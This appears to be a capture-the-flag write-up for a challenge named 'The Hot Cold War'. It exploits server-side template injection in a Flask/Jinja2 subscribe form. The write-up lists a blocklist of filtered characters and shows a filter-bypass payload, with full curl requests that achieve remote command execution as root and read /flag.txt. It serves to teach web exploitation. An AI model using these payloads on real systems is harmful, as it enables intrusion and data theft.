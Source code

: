 # The Hot Cold War

## Description

The Bank of Spain launched a new website which might holds some really secretive insights of the bank blueprint. Find a way in to find a way out.

**Target URL** : [http://3.23.94.118:9000](http://3.23.94.118:9000/)

## Solution

Browsing to the given URL we see a subscribe form.

![](assets/subscribe.png)

The email value gets reflected in the response. 

![](assets/email.png)

This is safe against XSS vulnerability as its doing HTML encoding on the output. Looking at the response header we find that this application hosted using Python technology. 

```bash
curl http://3.23.94.118:9000/ -I
HTTP/1.1 200 OK
Server: Werkzeug/2.1.1 Python/3.9.7
Date: Wed, 13 Apr 2022 12:20:39 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2905
```

 We can try to test for Server Side Template Injection which is very common in Python applications. The below image can help in detecting the SSTI vulnerability. 

> Note: Image reference is taken from [PostSwigger](https://portswigger.net/web-security/server-side-template-injection) blog.

![](assets/ssti.png)

Trying `{{7*7}}` results in `49`.

```bash
curl -s "http://3.23.94.118:9000/subscribe?email=\{\{7*7\}\}" | grep '<p '
      </div><br/><center><p class="section-header">49 will now enabled to receive monthly newsletters and updates.</p>
```

Referring to [SwisskyRepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread) SSTI payloads we can try below to execute the commands and read output.

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

```bash
curl -s "http://3.23.94.118:9000/subscribe?email=%7B%7B%20self._TemplateReference__context.cycler.__init__.__globals__.os.popen%28%27id%27%29.read%28%29%20%7D%7D" | grep '<p '
      </div><br/><center><p class="section-header">ah! we don&#39;t allow these characters</p>
```

It is blocking some characters. After some testing we can list the following blacklisted characters. 

```
__
classes
file
write
format
\x
application
builtins
request[request.
TemplateReference
context etc
```

We can try to form a payload by referring to [0day.work](https://0day.work/jinja2-template-injection-filter-bypasses/) blogpost. But that doesn't seem to work since this application is built using Python3 and `file` primitive doesn't exist. We have to find a work around. Taking the parameter splitting technique from the blogpost we can try to split the below working payload to bypass the blocklist.

```python
request.__class__.__mro__.last().__subclasses__().filtermap('__init__').filtermap('__globals__').filter('popen').first()
```

The below payload will work with Python3 bypassing the blocklists. 

```
{'us': '_', 'class': 'class', 'mro': 'mro', 'subclasses': 'subclasses', 'init': 'init', 'globals': 'globals', 'popen': 'popen', 'email': "{% set os = request|attr([request.args.us, request.args.us, request.args.class, request.args.us, request.args.us]|join)|attr([request.args.us, request.args.us, request.args.mro, request.args.us, request.args.us]|join)|last|attr([request.args.us, request.args.us, request.args.subclasses, request.args.us, request.args.us]|join)()|selectattr([request.args.us, request.args.us, request.args.init, request.args.us, request.args.us]|join)|map(attribute=[request.args.us, request.args.us, request.args.init, request.args.us, request.args.us]|join)|selectattr([request.args.us, request.args.us, request.args.globals, request.args.us, request.args.us]|join)|map(attribute=[request.args.us, request.args.us, request.args.globals, request.args.us, request.args.us]|join)|selectattr(request.args.popen)|first%}{{os.popen('id').read()}}"}
```

Let's encode the payload and send the request

```bash
curl -s 'http://3.23.94.118:9000/subscribe?us=_&class=class&mro=mro&subclasses=subclasses&init=init&globals=globals&popen=popen&email=%7B%25+set+os+%3D+request%7Cattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.class%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.mro%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Clast%7Cattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.subclasses%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%28%29%7Cselectattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.init%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cmap%28attribute%3D%5Brequest.args.us%2C+request.args.us%2C+request.args.init%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cselectattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.globals%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cmap%28attribute%3D%5Brequest.args.us%2C+request.args.us%2C+request.args.globals%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cselectattr%28request.args.popen%29%7Cfirst%25%7D%7B%7Bos.popen%28%27id%27%29.read%28%29%7D%7D' | grep '<p '
      </div><br/><center><p class="section-header">uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

Flag can be read from `/flag.txt`. 

```bash
curl -s 'http://3.23.94.118:9000/subscribe?us=_&class=class&mro=mro&subclasses=subclasses&init=init&globals=globals&popen=popen&email=%7B%25+set+os+%3D+request%7Cattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.class%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.mro%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Clast%7Cattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.subclasses%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%28%29%7Cselectattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.init%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cmap%28attribute%3D%5Brequest.args.us%2C+request.args.us%2C+request.args.init%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cselectattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.globals%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cmap%28attribute%3D%5Brequest.args.us%2C+request.args.us%2C+request.args.globals%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cselectattr%28request.args.popen%29%7Cfirst%25%7D%7B%7Bos.popen%28%27cat%20%2fflag.txt%27%29.read%28%29%7D%7D' | grep '<p '
      </div><br/><center><p class="section-header">ACVCTF{t3mpl4t3s_4r3_s0_c0mpl3x_th4n_u_1m4g1n3}
```

